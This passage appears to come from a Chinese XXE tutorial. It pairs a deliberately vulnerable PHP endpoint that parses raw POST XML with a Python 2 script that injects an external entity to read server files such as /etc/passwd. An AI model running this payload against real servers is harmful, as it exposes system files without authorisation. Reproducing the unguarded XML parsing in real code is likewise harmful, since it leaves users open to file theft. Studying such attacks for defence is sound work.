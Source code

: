 ```bash
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```

读取文件.py

```bash
#!/usr/bin/python
# -*- coding:utf-8 -*-
import urllib2

if __name__ == '__main__':

    print u'输入要访问的地址，如http://127.0.0.1/xml/xxe2.php'
    url = raw_input()
    count=1
    while count==1:
        print u'输入要读取的文件，如file:///etc/passwd'
        payload = raw_input()
        headers = {'Content-type': 'text/xml'}
        xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + payload + '" >]><root><name>&xxe;</name></root>'
        req = urllib2.Request(url = url,headers = headers, data = xml)
        res_data = urllib2.urlopen(req)
        res = res_data.read()
        print res
```

[![](assets/1698897471-6d5d8b8d8d7e911177653d2aaf2dbe68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191202152024-3548448c-14d4-1.png)  
通过 urllib2 的 request 方法用 POST 方式向目标地址发送 XML 数据，返回的数据即为服务器相关文件内容。
